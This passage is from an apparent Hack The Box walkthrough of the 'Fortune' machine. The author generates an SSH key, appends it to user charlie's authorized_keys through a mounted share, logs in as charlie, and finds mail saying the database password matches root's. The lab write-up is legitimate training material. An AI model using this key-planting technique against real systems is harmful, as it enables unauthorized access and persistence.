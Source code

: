 ```
drwxr-x--- 3 rick rick 512 Nov  6  2018 ..
-rw------- 1 rick rick   0 Oct 11  2018 authorized_keys
rick@kali:/root/Desktop/HTB/boxes/fortune/mnt/charlie/.ssh$ 
```
<br> I used `ssh-keygen` to generate a private and a public key :
```
root@kali:~/Desktop/HTB/boxes/fortune# mkdir ssh
root@kali:~/Desktop/HTB/boxes/fortune# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/Desktop/HTB/boxes/fortune/ssh/id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/Desktop/HTB/boxes/fortune/ssh/id_rsa.
Your public key has been saved in /root/Desktop/HTB/boxes/fortune/ssh/id_rsa.pub.
The key fingerprint is:
SHA256:OicgBWZAaEOpjbe8y6qqvgAEJwY0qDKuSuBXQ/Gt+Cs root@kali
The key's randomart image is:
+---[RSA 2048]----+
|%B*  .           |
|=O..  o .        |
|++. .. . .       |
|B o.. . .        |
|=+...+ .S        |
|+.o...o.         |
|oo o  +..        |
|+.o  E +.        |
|%++.  ..         |
+----[SHA256]-----+
root@kali:~/Desktop/HTB/boxes/fortune# cat ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDjxkpA0ZDuhQD+S6db5Vs1jaYcBvQ95b3cIiWihMgHXZC4rMdRVgFhCKaNot9qISpBTnwlP7+NOC0GK7hVw3xDtLuqkTJb8DW2/8dsmsf3TUKX0IkFLz45kZs0eSBfBhl9CYnB5+9A/uQ1UNKufsUQ19sWuzspksvN/PA0aujwEUQgPlMlw+uSlcTxD+zTENVEJoM4cEVE5EvWg/JWYMQLbkob0k5YnDwgr3KdyWOxidsfLNXthd7FYjShVMl2yfW+r1NjJN8mCSE8z8G/GJ9ripwqWzOjgUzDvKIcODnJmt975h6h2oHExipzWj2IUJxPz41HiP3JgeSuDFP87fdz root@kali                               
root@kali:~/Desktop/HTB/boxes/fortune#
```
<br> Then I wrote my public key to `authorized_keys` and got `ssh` as `charlie` :
```
rick@kali:/root/Desktop/HTB/boxes/fortune/mnt/charlie/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDjxkpA0ZDuhQD+S6db5Vs1jaYcBvQ95b3cIiWihMgHXZC4rMdRVgFhCKaNot9qISpBTnwlP7+NOC0GK7hVw3xDtLuqkTJb8DW2/8dsmsf3TUKX0IkFLz45kZs0eSBfBhl9CYnB5+9A/uQ1UNKufsUQ19sWuzspksvN/PA0aujwEUQgPlMlw+uSlcTxD+zTENVEJoM4cEVE5EvWg/JWYMQLbkob0k5YnDwgr3KdyWOxidsfLNXthd7FYjShVMl2yfW+r1NjJN8mCSE8z8G/GJ9ripwqWzOjgUzDvKIcODnJmt975h6h2oHExipzWj2IUJxPz41HiP3JgeSuDFP87fdz root@kali" >> authorized_keys 
rick@kali:/root/Desktop/HTB/boxes/fortune/mnt/charlie/.ssh$ cd ../../../ssh/
rick@kali:/root/Desktop/HTB/boxes/fortune/ssh$ su
Password: 
root@kali:~/Desktop/HTB/boxes/fortune/ssh# ssh charlie@fortune.htb -i id_rsa
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.
fortune$ 
```
<br> In the home directory of `charlie` there was a file called `mbox` which had an email from `bob` to `charlie` thanking him for setting up `pgadmin4` for him and also telling him that he set the `dba` password to the same as root password :
```
fortune$ ls -al
total 44
drwxr-x---  3 charlie  charlie  512 Nov  5  2018 .
drwxr-xr-x  5 root     wheel    512 Nov  2  2018 ..
-rw-r-----  1 charlie  charlie   87 Oct 11  2018 .Xdefaults
-rw-r-----  1 charlie  charlie  771 Oct 11  2018 .cshrc
-rw-r-----  1 charlie  charlie  101 Oct 11  2018 .cvsrc
-rw-r-----  1 charlie  charlie  359 Oct 11  2018 .login
```